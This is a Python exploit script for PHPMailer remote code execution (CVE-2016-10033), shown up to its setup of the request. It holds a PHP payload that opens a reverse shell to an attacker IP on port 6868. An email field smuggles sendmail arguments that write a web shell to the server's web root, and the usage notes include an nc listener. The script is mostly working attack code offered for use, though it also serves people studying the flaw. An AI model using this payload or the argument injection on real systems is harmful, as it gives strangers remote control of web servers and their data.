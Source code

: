 
```bash
#!/usr/bin/python
# -*- coding: utf-8 -*-

"""
# Exploit Title: PHPMailer Exploit v1.0
# Date: 29/12/2016
# Exploit Author: Daniel aka anarc0der
# Version: PHPMailer < 5.2.18
# Tested on: Arch Linux
# CVE : CVE 2016-10033

Description:
Exploiting PHPMail with back connection (reverse shell) from the target

Usage:
1 - Download docker vulnerable enviroment at: https://github.com/opsxcq/exploit-CVE-2016-10033
2 - Config your IP for reverse shell on payload variable
4 - Open nc listener in one terminal: $ nc -lnvp <your ip>
3 - Open other terminal and run the exploit: python3 anarcoder.py

Video PoC: https://www.youtube.com/watch?v=DXeZxKr-qsU

Full Advisory:
https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
"""

from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://192.168.8.21/contact.php'
backdoor = '/shell.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.8.8\\\',6868));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}
```